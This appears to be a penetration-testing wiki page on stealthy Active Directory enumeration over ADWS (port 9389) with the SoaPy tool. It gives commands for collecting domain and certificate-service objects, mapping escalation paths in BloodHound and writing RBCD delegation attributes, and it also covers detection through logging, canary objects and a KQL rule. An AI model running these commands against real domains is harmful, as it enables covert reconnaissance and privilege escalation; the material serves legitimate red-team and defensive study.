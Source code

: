 # Active Directory Web Services (ADWS) Enumeration & Stealth Collection


## What is ADWS?

Active Directory Web Services (ADWS) is **enabled by default on every Domain Controller since Windows Server 2008 R2** and listens on TCP **9389**.  Despite the name, **no HTTP is involved**.  Instead, the service exposes LDAP-style data through a stack of proprietary .NET framing protocols:

* MC-NBFX → MC-NBFSE → MS-NNS → MC-NMF

Because the traffic is encapsulated inside these binary SOAP frames and travels over an uncommon port, **enumeration through ADWS is far less likely to be inspected, filtered or signatured than classic LDAP/389 & 636 traffic**.  For operators this means:

* Stealthier recon – Blue teams often concentrate on LDAP queries.
* Freedom to collect from **non-Windows hosts (Linux, macOS)** by tunnelling 9389/TCP through a SOCKS proxy.
* The same data you would obtain via LDAP (users, groups, ACLs, schema, etc.) and the ability to perform **writes** (e.g. `msDs-AllowedToActOnBehalfOfOtherIdentity` for **RBCD**).

> NOTE: ADWS is also used by many RSAT GUI/PowerShell tools, so traffic may blend with legitimate admin activity.

## SoaPy – Native Python Client

[[https://github.com/logangoins/soapy|SoaPy]] is a **full re-implementation of the ADWS protocol stack in pure Python**.  It crafts the NBFX/NBFSE/NNS/NMF frames byte-for-byte, allowing collection from Unix-like systems without touching the .NET runtime.

### Key Features

* Supports **proxying through SOCKS** (useful from C2 implants).
* Fine-grained search filters identical to LDAP `-q '(objectClass=user)'`.
* Optional **write** operations ( `--set` / `--delete` ).
* **BOFHound output mode** for direct ingestion into BloodHound.
* `--parse` flag to prettify timestamps / `userAccountControl` when human readability is required.

### Installation (operator host)

```bash
python3 -m pip install soapy-adws   # or git clone && pip install -r requirements.txt
```
```
## Stealth AD Collection Workflow

The following workflow shows how to enumerate **domain & ADCS objects** over ADWS, convert them to BloodHound JSON and hunt for certificate-based attack paths – all from Linux:

1. **Tunnel 9389/TCP** from the target network to your box (e.g. via Chisel, Meterpreter, SSH dynamic port-forward, etc.).  Export `export HTTPS_PROXY=socks5://127.0.0.1:1080` or use SoaPy’s `--proxyHost/--proxyPort`.

2. **Collect the root domain object:**

```bash
soapy ludus.domain/jdoe:'P@ssw0rd'@10.2.10.10 \
      -q '(objectClass=domain)' \
      | tee data/domain.log
```
```
3. **Collect ADCS-related objects from the Configuration NC:**

```bash
soapy ludus.domain/jdoe:'P@ssw0rd'@10.2.10.10 \
      -dn 'CN=Configuration,DC=ludus,DC=domain' \
      -q '(|(objectClass=pkiCertificateTemplate)(objectClass=CertificationAuthority) \\
           (objectClass=pkiEnrollmentService)(objectClass=msPKI-Enterprise-Oid))' \
      | tee data/adcs.log
```
```
4. **Convert to BloodHound:**

```bash
bofhound -i data --zip   # produces BloodHound.zip
```
```
5. **Upload the ZIP** in the BloodHound GUI and run cypher queries such as `MATCH (u:User)-[:Can_Enroll*1..]->(c:CertTemplate) RETURN u,c` to reveal certificate escalation paths (ESC1, ESC8, etc.).

### Writing `msDs-AllowedToActOnBehalfOfOtherIdentity` (RBCD)

```bash
soapy ludus.domain/jdoe:'P@ssw0rd'@dc.ludus.domain \
      --set 'CN=Victim,OU=Servers,DC=ludus,DC=domain' \
      msDs-AllowedToActOnBehalfOfOtherIdentity 'B:32:01....'
```
```
Combine this with `s4u2proxy`/`Rubeus /getticket` for a full **Resource-Based Constrained Delegation** chain.

## Detection & Hardening

### Verbose ADDS Logging

Enable the following registry keys on Domain Controllers to surface expensive / inefficient searches coming from ADWS (and LDAP):

```powershell
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Diagnostics' -Name '15 Field Engineering' -Value 5 -Type DWORD
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Parameters' -Name 'Expensive Search Results Threshold' -Value 1 -Type DWORD
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Parameters' -Name 'Search Time Threshold (msecs)' -Value 0 -Type DWORD
```
```
Events will appear under **Directory-Service** with the full LDAP filter, even when the query arrived via ADWS.

### SACL Canary Objects

1. Create a dummy object (e.g. disabled user `CanaryUser`).
2. Add an **Audit** ACE for the _Everyone_ principal, audited on **ReadProperty**.
3. Whenever an attacker performs `(servicePrincipalName=*)`, `(objectClass=user)` etc. the DC emits **Event 4662** which contains the real user SID – even when the request is proxied or originates from ADWS.

Elastic pre-built rule example:

```kql
(event.code:4662 and not user.id:"S-1-5-18") and winlog.event_data.AccessMask:"0x10"
```
```
## Tooling Summary

| Purpose | Tool | Notes |
|---------|------|-------|
| ADWS enumeration | [[https://github.com/logangoins/soapy|SoaPy]] | Python, SOCKS, read/write |
| BloodHound ingest | [[https://github.com/bohops/BOFHound|BOFHound]] | Converts SoaPy/ldapsearch logs |
| Cert compromise | [[https://github.com/ly4k/Certipy|Certipy]] | Can be proxied through same SOCKS |

## References

* [[https://specterops.io/blog/2025/07/25/make-sure-to-use-soapy-an-operators-guide-to-stealthy-ad-collection-using-adws/|SpecterOps – Make Sure to Use SOAP(y) – An Operators Guide to Stealthy AD Collection Using ADWS]]
* [[https://github.com/logangoins/soapy|SoaPy GitHub]]
* [[https://github.com/bohops/BOFHound|BOFHound GitHub]]
* [[https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nbfx/|Microsoft – MC-NBFX, MC-NBFSE, MS-NNS, MC-NMF specifications]]

